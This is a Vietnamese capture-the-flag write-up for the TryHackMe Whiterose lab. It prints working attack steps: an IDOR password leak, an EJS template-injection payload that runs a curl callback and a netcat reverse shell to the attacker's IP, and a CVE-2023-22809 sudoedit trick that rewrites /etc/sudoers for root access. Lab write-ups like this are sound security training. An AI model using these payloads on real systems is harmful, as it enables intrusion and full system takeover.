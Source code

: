 <div align="center">
    <h1>🌹 TryHackMe Whiterose Writeup 🌹</h1>
</div>


<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>

## 🚀1. Khởi động taget
![Start taget](Images/Start_machine.png)

## 🔍2. Recon
```
nmap -sC -sV 10.10.178.31 
```
![Nmap](Images/Recon_nmap.png)

- Sử dụng nmap quét cổng, thấy 2 cổng mở là `22` và `80`
    - Cổng `22` mở cho dịch vụ `SSH`
    - Cổng `80` chạy máy chủ web ` nginx 1.14.0 (Ubuntu)` qua http
- Truy cập vào địa chỉ ip trang web bằng trình duyệt, thấy được chuyển hướng sang `cyprusbank.thm`.

![Browser](Images/Recon_browser.png)

- Thêm tên miền này vào `etc/hosts` với địa chỉ ip mục tiêu, sau đó truy cập lại.

![hosts](Images/Recon_hosts.png)

- Sử dụng `gobuster` quét thư mục ẩn, tuy vậy có vẻ không có kết quả.

```
gobuster dir -u http://cyprusbank.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
![gobuster](Images/Subdomain_gobuster.png)

- Sử dụng `ffuf` để quét subdomain.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302
```

![ffuf](Images/Subdomain_ffuf.png)

- Tìm được 2 subdomain là `www` và `admin`, truy cập thử vào 2 subdomain này (Lưu ý, thêm vào `etc/hosts` trước khi truy cập).

- Truy cập `http://admin.cyprusbank.thm/` trả về một `login page`

![login page](Images/Subdomain_admin.png)

- Sử dụng thông tin được gợi ý để đăng nhập `Olivia Cortez:olivi8`
- Đăng nhập thành công, truy cập được vào một số tài nguyên của trang web, trong đó một số bị hạn chế.

![login success](Images/Login_success.png)


## 🔑3. Truy cập trang web
- Thử tìm kiếm tên `Tyrell Wellick`, tuy nhiên, tài khoản hiện tại có vẻ chỉ xem được thông tin `Balance` mà không xem được số điện thoại.

![Tyrell Wellick](Images/Web1.png)

- Kiểm tra một lượt trang web, tại page `messages` với đường dẫn `http://admin.cyprusbank.thm/messages/?c=5` có chứa tham số `c=5` - dấu hiệu có thể bị `IDOR`

![Messages](Images/Web_mess.png)

- Thử giá trị của `c` với các số khác nhau. tại `c=9`, phát hiện thông tin mật khẩu của tài khoản `Gayle Bev`

![IDOR](Images/Web_IDOR.png)

- Đăng nhập vào trang Web bằng tài khoản này, thành công lấy được số điện thoại của `Tyrell Wellick`

![Tyrell](Images/Tyrell_phone.png)

- Submit thành công answer 1

![Tyrell](Images/Tyrell_correct.png)

## 📄4. Truy cập web shell

- Tiếp tục đăng nhập với tài khoản `Gayle Bev`, truy cập được page `Customer Settings` cho phép cập nhật mật khẩu của tài khoản nhân viên.

![setting](Images/WebShell1.png)

- Thử sử dụng `Burp Suite` bắt và kiểm tra payload khi thực hiện cập nhật mật khẩu.

![BurpSuite](Images/Burp_request.png)

- Mật khẩu sau khi cập nhật được hiển thị lại ở response, có thể dẫn tới `XSS`. Tuy vậy nhập thử một số payload XSS thì không thu được kết quả.
- Xóa thử trường `password`, kiểm tra response nhận được thông báo lỗi.

![BurpSuiteEjs](Images/Burp_request2.png)

- Có vẻ lỗi này có liên quan đến template engine `EJS`, có thể dẫn đến `SSTI - Server-Side Template Injection` trong `NoteJs`. Tìm kiếm thêm thông tin, tìm được một số bài viết liên quan: [EJS, Server side template injection ejs@3.1.9](https://github.com/mde/ejs/issues/720)

- Có vẻ lỗi này xuất hiện khi sử dụng biến trong template `EJS` mà không kiểm tra nó tồn tại, thì EJS sẽ ném lỗi `ReferenceError` nếu biến đó không được định nghĩa trong `render()`.
- Ở đây `password` không được truyền vào trong `res.render('template', { ... })` nên nó gây ra lỗi `ReferenceError: password is not defined`
- Dựa vào POC tìm được, ta có payload sau:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.21.175.20');//
```
- Trong đó:
    - Web server nhận trực tiếp tham số `settings[view options][...]` từ query hoặc body 
    - Web server không lọc hoặc validate các trường `settings[...]`, nên bạn inject thẳng vào cấu hình của `EJS`.
    - Lợi dụng việc ghi đè cấu hình để kết thúc đoạn EJS template sớm và chèn mã JavaScript tùy ý thông qua đoạn `process.mainModule.require('child_process').execSync(...)`
- Tạo python server và chèn thử payload trên vào request xem nó có chạy thành công không 

![Hoangdeptrai](Images/Ejs_payload.png)

![Hoangdeptrai](Images/Ejs_pythonServer.png)

- Có vẻ payload thực thi thành công, tiến hành tạo `reverse shell`

- Tạo shell trên revshells.com

![Hoangdeptrai](Images/Reverse.com.png)

- Ta được payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.175.20 1234 -e /bin/sh');//
```
- Chèn payload thông qua `Burp Suite`, listen port: `nc -lvnp 1234`

![Hoangdeptrai](Images/Insert_payload.png)

![Hoangdeptrai](Images/Reverse_shell.png)

- Sau khi nhận `reverse shell` thành công, update shell cho dễ nhìn:

![Hoangdeptrai](Images/Update_shell.png)

- Tìm kiếm web flag, tìm được trong file `/home/web/user.txt`

![Hoangdeptrai](Images/Flag1.png)

![Hoangdeptrai](Images/Flag1.1.png)

## ⚠️5. Leo quyền lên root shell
- Kiểm tra những quyền có thể chạy với sudo qua lệnh `sudo -l`

![Hoangdeptrai](Images/sudo-l.png)

- Có thể thấy ta có quyền chạy `sudoedit` với quyền sudo

- Tìm kiếm xem có lỗ hổng nào có thể khai thác với quyền này không 

![Hoangdeptrai](Images/sudoedit_cve.png)

- `CVE-2023-22809` cho phép leo thang đặc quyền với `sudo 1.8.0 đến 1.9.12p1`

![Hoangdeptrai](Images/CVE-2023-22809.png)
- Kiểm tra phiên bản sudo của máy chủ:

![Hoangdeptrai](Images/sudoedit-v.png)

-> Phiên bản phù hợp, có thể khai thác.
- Sử dụng lệnh:
```
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- Trong đó:
    - Biến môi trường `EDITOR` được `sudoedit` sử dụng để xác định trình soạn thảo văn bản
    - `vi -- /etc/sudoers` là cú pháp lợi dụng để ép vi mở file `/etc/sudoers` thay vì file hợp lệ được chỉ định.
    - Mục đích là đánh lừa `sudoedit` mở file tùy ý (`/etc/sudoers`) dù người dùng chỉ được cấp quyền chỉnh sửa `/etc/nginx/sites-available/admin.cyprusbank.thm.`
- Sau khi thành công mở file `/etc/sudoers` bằng `vi`, chèn thêm dòng `web ALL=(ALL:ALL) ALL` với mục đích cho user `web` có toàn quyền `sudo`

![Hoangdeptrai](Images/All_root.png)

- Sau khi chèn thành công, `sudo su` để vào quyền root

![Hoangdeptrai](Images/Sudo-su.png)

- Chiếm quyền `root` thành công, tìm flag trong `/root/root.txt`

![Hoangdeptrai](Images/flag2.png)

![Hoangdeptrai](Images/flag2.png)

=> Hoàn thành Lab :) 🔥🔥🔥

![Hoangdeptrai](Images/Complete.png)















